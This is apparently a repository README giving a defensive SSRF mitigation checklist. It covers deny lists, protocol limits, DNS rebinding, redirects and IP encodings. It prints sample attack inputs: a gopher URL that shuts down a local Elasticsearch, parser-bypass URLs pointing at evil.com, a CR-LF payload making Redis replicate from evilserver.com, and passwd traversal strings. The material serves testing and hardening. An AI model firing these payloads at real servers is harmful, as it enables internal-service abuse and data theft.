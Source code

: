 # Server Side Request Forgery (SSRF) Checklist

<img src="images/ssrf.png" align="left"/>

Server-Side Request Forgery (SSRF) allows an attacker to have a server perform network calls in the context of that server. Common exploits will communicate to backend services via HTTP, but other protocols are also possible via protocol smuggling.

Impact of SSRF can vary, but can be especially severe in cloud environments due to cloud provider's metadata services revealing sensitive data. Avoid processing user supplied URLs if possible. Otherwise this checklist can help cover some common vectors.

## Mitigation Checklist
- [ ] Ensure that IP deny lists are comprehensive
- [ ] Enforce only defined protocols are processed (E.g. only HTTP/HTTPS)
- [ ] Ensure that DNS name resolutions don’t bypass any checks
- [ ] Ensure that HTTP redirects don’t bypass any checks
- [ ] Ensure that the IPv6 addresses don’t bypass any checks
- [ ] Ensure that uncommon representations of IPs don’t bypass any checks
- [ ] Ensure user controlled data is the expected type
- [ ] Ensure abusing URL parsing doesn’t bypass checks
- [ ] Ensure CR-LF & Unicode characters get encoded correctly
- [ ] Minimize user controlled data that is processed

## Ensure that IP deny lists are comprehensive

There's probably not a legitimate use case for a user to have a server request something in the private IP space, the loopback address, or the AWS metadata endpoint. Ensure that you have all the following IPs in your disallow list.

|   |   |
|---|---|
| 127.0.0.1/8 | Loopback |
| 10.0.0.0/8 | Private IP Address Block |
| 172.16.0.0/12 | Private IP Address Block |
| 192.168.0.0/16 | Private IP Address Block |
| 169.254.169.254/32 | AWS Metadata Endpoint |

## Enforce only defined protocols are processed (E.g. only HTTP/HTTPS)

Configure the service to only use explicitly defined protocols. E.g. only allow HTTP/HTTPS. Not defining the protocol can allow protocol smuggling.

This request:
```
gopher://127.0.0.1:9200/_POST%20/shutdown%20HTTP/1.1%0AUser-Agent%3A%20curl/
7.35.0%0AHost%3A%20127.0.0.1%0AAccept%3A%20*/*%0AContent-Length%3A23%0AContent-Type%3A+application/
x-www-form-urlencoded%0AConnection%3A+close%0A%0AIm%20the%20request%20body%20now
```
Creates the following call to an elasticsearch server:
```
POST /shutdown HTTP/1.1
User-Agent: curl/7.35.0
Host: 127.0.0.1
Accept: */*
Content-Length: 23
Content-Type: application/x-www-form-urlencoded
Connection: close

Im the request body now
```

## Ensure that DNS name resolutions don’t bypass any checks

DNS rebinding attacks will resolve subdomains to internal IP addresses. Sites like xip.io provide this functionality. You can use this for testing. Ensure these resolutions will also be blocked by IP disallow lists.

|   |   |
|---|---|
| http://169.254.169.254.xip.io/ | http://169.254.169.254 |

## Ensure that HTTP redirects don’t bypass any checks

An attacker may host a server where they can set the response headers of a request to point to internal IPs. URL shortening services like bitly also can provide this functionality. You can use this for testing. Ensure redirects will also be blocked by IP disallow lists.

|   |   |
|---|---|
| https://bit.ly/2Gr1XnX | http://169.254.169.254 |

Also ensure that redirects will only process the predefined protocols.

### Ensure that the IPv6 addresses don’t bypass any checks

IPv4 can be represented as IPv6 addresses. Make sure these don’t bypass IP disallow lists.
| IPv4 | IPv6|
|---|---|
| 127.0.0.1 | 0:0:0:0:0:ffff:7f00:1 |
| 69.254.169.254 | 0:0:0:0:0:ffff:a9fe:a9fe |


## Ensure that uncommon representation of IPs don’t bypass any checks

Many libraries and binaries will process IPs represented as 32 bit ints, hex, or octal. Make sure that these don’t bypass the IP disallow lists.

| IP | 32bit Int | Hex | Octal |
|---|---|---|---|
| 127.0.0.1 | 2130706433 <br /> 0 | 0x7f000001 <br /> 0x0 | |
| 169.254.169.254 | 2852039166 | 0xa9fea9fe | |

You can test this out locally with ping or other binaries. (Note: `ping 0` resolves on linux, but not mac)

```
$ ping 2130706433
PING 2130706433 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.018 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.046 ms
```

## Ensure user controlled data is the expected type

```
axios.request(req.data.url).then(function(res) {...})
```
Some JS http client functions accept either a string or config object to create a request. An attacker could set the url parameter to be a config object. Similar issues can exist in other languages when assuming user input type. Ensure all user data is the expected data type.

Note: The impact of this vector can be more severe if the docker daemon is accessible from the app. Axios and some other JS request libraries support communicating over Unix sockets (See here). This results in RCE.

## Ensure "abusing URL parsers" vectors don’t bypass checks

Ensure that the URL that was parsed and validated is the same that will be fetched by http client.

```
http://myvalidserver.com:8080@attackerserver.com
```

By including an `@`, most URL parsing libs will evaluate the server portion of the URL as `attackerserver.com` The following is vulnerable to allow an attacker to specify the host of the request.

```
axios.get(`http://myvalidserver.com:8080${req.data.path}`)
```

Include a trailing / before the user controlled path to avoid this vulnerability.

The following patterns may also be used for testing:
```
http://127.0.0.1:11211:80/
http://foo@evil.com:80@google.com/
http://foo@127.0.0.1 @google.com/
http://google.com#@evil.com/
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
http://127.0.0.1\tfoo.google.com
```

Ref: https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf

## Ensure CR-LF & Unicode characters get encoded correctly

Make sure CR-LF characters stay encoded and don’t allow CR-LF injection
```
http://127.0.0.1:25/%0D%0AHELO orange.tw%0D%0AMAIL FROM
http://127.0.0.1:25/\r\nSLAVE OF evilserver.com\r\n
```

```
http://myserver.com//passwd
http://myserver.com/xFF/x2E/xFF/x2E/passwd
```

## Minimize user controlled data that is processed

Nothing to test here. Just a note to evaluate if any user controlled parameters can be removed to reduce risk.

<br><br>
:warning: This list attempts to be comprehensive. Feel free to open an issue or PR for missing or incomplete vectors.
